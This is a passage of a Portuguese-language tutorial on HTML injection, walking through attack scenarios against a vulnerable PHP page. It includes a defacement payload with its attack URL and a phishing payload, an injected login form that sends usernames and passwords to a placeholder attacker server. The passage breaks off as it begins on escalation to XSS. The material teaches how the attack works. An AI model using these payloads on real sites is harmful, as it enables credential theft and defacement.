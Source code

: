 Para ilustrar o impacto tangível da Injeção de HTML, esta seção detalha vários cenários de ataque, cada um construído sobre o *script* PHP vulnerável introduzido anteriormente.

### Desfiguração de Página (*Defacement*)

O objetivo mais simples de um invasor pode ser alterar visualmente a página, seja para vandalismo, para prejudicar a reputação da marca ou para transmitir uma mensagem.

**Payload**:

```html
<h1>Você Foi Hackeado</h1>
```

**URL de Ataque**: `http://exemplo.com/pagina.php?username=<h1>Voce Foi Hackeado</h1>`

**HTML Resultante**: `<div>Bem-vindo, <h1>Você Foi Hackeado</h1>!</div>`

**Análise**: Este *payload* demonstra o controle fundamental sobre a estrutura do DOM. O navegador renderizará a *tag* `<h1>` como um cabeçalho grande, alterando drasticamente a aparência da mensagem de boas-vindas. Embora simples, uma desfiguração bem-sucedida em uma página de alta visibilidade pode causar danos significativos à reputação.

### Phishing e Roubo de Credenciais

Um cenário muito mais perigoso é o uso da Injeção de HTML para criar um ataque de *phishing* convincente. Este ataque não requer a execução de *scripts*, destacando a importância de se defender contra a injeção de HTML "pura".

**Payload**:

```html
<form action="http://servidor-do-invasor.com/roubar.php" method="post">
  <h3>Sua sessão expirou. Por favor, faça login novamente.</h3>
  Usuário: <input type="text" name="username"><br>
  Senha: <input type="password" name="password"><br>
  <input type="submit" value="Login">
</form>
```

**URL de Ataque**: (O *payload* seria codificado para URL) `http://exemplo.com/pagina.php?username=<form action...>`

**HTML Resultante**: O código da página agora incluirá um formulário de *login* completo e funcional.

**Análise**: O navegador da vítima renderizará um formulário de *login* que parece legítimo, pois está sendo servido a partir do domínio confiável `exemplo.com`. No entanto, o atributo `action` da *tag* `<form>` foi modificado para apontar para um servidor controlado pelo invasor. Quando a vítima insere suas credenciais e clica em "Login", os dados são enviados diretamente para o invasor. Este ataque é particularmente eficaz porque explora a confiança do usuário no domínio do site.

### Escalação para Cross-Site Scripting (XSS)

A escalação mais comum e poderosa da Injeção de HTML é a execução de JavaScript, transformando a vulnerabilidade em um XSS completo.
